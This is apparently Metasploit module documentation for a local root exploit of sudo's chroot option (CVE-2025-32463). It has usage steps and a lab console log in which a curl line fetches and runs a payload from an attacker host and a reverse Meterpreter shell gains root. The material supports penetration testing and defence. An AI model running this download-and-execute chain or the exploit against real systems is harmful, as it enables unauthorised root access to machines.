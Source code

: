 ## Vulnerable Application


Sudo before version 1.19.17p1 allows user to use `chroot` option, when executing command. The option is intended to run a command with user-selected root directory (if sudoers file allow it). Change in version 1.9.14 allows resolving paths via `chroot` using user-specified root directory when sudoers is still evaluating. This allows the attacker to trick Sudo into loading arbitrary shared object. As target shared object, Name Service Switch (NSS) operations are trigged before resolving sudoers, but after running `chroot` syscall. The module requires existing session and requires compiler on target machine (e.g. `gcc`). 

## Verification Steps


1. Start msfconsole
2. Get existing session to low-privileged user
3. Do: `use linux/local/sudo_chroot_cve_2025_32463`
4. Set target payload
5. Do: `set lhost [attacker IP address]`
6. Do: `set lport [attacker port]`
7. Do: `run`

## Options

### COMPILE

Option setting if compile target payload on the target.

### COMPILER

Option setting the compiler to compile target payload.


## Scenarios

```
msf6 exploit(linux/local/sudo_chroot_cve_2025_32463) > run verbose=true 
[*] Command to run on remote host: curl -so ./YoGpAgWbO http://192.168.168.128:8080/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./YoGpAgWbO;./YoGpAgWbO&
[*] Fetch handler listening on 192.168.168.128:8080
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Running version 1.9.16.2
[*] Writing '/tmp/Xw1XwkTPC' (117 bytes) ...
[*] Max line length is 65537
[*] Writing 117 bytes in 1 chunks of 420 bytes (octal-encoded), using printf
[*] Creating directory /tmp/ugJjJFSc9q
[*] /tmp/ugJjJFSc9q created
[*] Max line length is 65537
[*] Writing 216 bytes in 1 chunks of 763 bytes (octal-encoded), using printf
[*] Client 192.168.168.140 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.140 (curl/8.14.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Launching exploit...
[*] Sending stage (3090404 bytes) to 192.168.168.140
[+] Deleted /tmp/Xw1XwkTPC
[+] Deleted /tmp/ugJjJFSc9q
[*] Meterpreter session 10 opened (192.168.168.128:4444 -> 192.168.168.140:41672) at 2025-07-10 16:12:58 +0200

meterpreter > sysinfo 
Computer     : kali.kali
OS           : Debian  (Linux 6.12.25-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
